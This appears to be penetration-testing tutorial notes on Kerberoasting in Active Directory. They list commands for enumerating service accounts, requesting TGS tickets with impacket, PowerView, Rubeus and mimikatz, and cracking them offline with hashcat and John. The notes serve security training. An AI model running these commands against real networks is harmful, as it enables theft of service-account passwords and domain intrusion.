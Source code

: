 If the entire process completes appropriately, the user will be permitted to access the requested service or application.

***

### **Kerberoasting**

> Kerberoasting is a technique to collect TGS tickets for service accounts, which can be enumerated by any user since no special privileges are required. To check if a user account is a service user, you just need to check if the property "ServicePrincipalName" (SPN) is not null. In order words, the first step to perform Kerberoasting is to find users with the SPN property set.\
> The goal of Kerberoasting is to crack the TGS tickets for service accounts (with SPN set). The TGS tickets are encrypted with keys derived from user passwords. As a consequence, it's possible to gain the password of the targeted service user by offline password cracking.

{% hint style="warning" %}
If `impacket-GetUserSPNs`throws the following error\
`KRB_AP_ERR_SKEW(Clock skew too great)`\
we need to synchronize the time of the Kali machine with the domain controller.\
We can use `ntpdate` or `rdate` to do so: \
`sudo rdate -n domain-controller-ip`
{% endhint %}

1. **Enumerate service accounts with SPN set:**
   * Using GetUsersSPNs.py from Linux:\
     `impacket-GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/username`
   * Using the (built-in) Active Directory module:\
     `Import-Module ActiveDirectory` followed by `Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName`
   * Using PowerView:\
     `Import-Module .\PowerView.ps1` followed by `Get-DomainUser -SPN -Properties samaccountname,ServicePrincipalName`
   * Using setspn from Windows:\
     `setspn.exe -Q */*`
2. **Request TGS tickets:**
   * Request all tickets with GetUsersSPNs.py from Linux:\
     `impacket-GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/username -request -outputfile filename`
   * Request a single ticket with GetUsersSPNs.py from Linux:\
     `impacket-GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/username -request-user target-user -outputfile filename`
   * Request ticket with PowerView:\
     `Import-Module .\PowerView.ps1` followed by `Get-DomainUser -Identity targetuser | Get-DomainSPNTicket -Format Hashcat`
   * Request all tickets with setspn:\
     `setspn.exe -T INLANEFREIGHT.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }`
   * Request all tickets with mimikatz:\
     `base64 /out:true` followed by `kerberos::list /export`
   * Request specific ticket using Rubeus:\
     `.\Rubeus.exe kerberoast /user:svc_mssql /outfile:hashes.kerberoast /nowrap`
   * Request tickets for users with admin count set to 1:\
     `.\Rubeus.exe kerberoast /ldapfilter:'admincount=1'`
   * Request all tickets using Rubeus:\
     `.\Rubeus.exe kerberoast /outfile:hashes.kerberoast /nowrap`
3. **Offline Password Cracking:**
   * Using Hashcat:\
     `hashcat -m 13100 tgstickethashfile /usr/share/wordlists/rockyou.txt`
   * Using John:\
     `john --format=krb5tgs --wordlist=/usr/share/wordlists/rockyou.txt hashes.kerberoast`
